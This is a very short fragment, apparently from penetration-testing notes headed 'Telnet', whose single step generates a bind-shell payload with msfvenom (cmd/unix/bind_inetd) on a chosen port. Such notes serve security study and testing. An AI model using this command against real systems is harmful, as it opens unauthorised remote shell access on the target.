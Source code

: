 # Telnet

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_inetd lport=<PORT>
```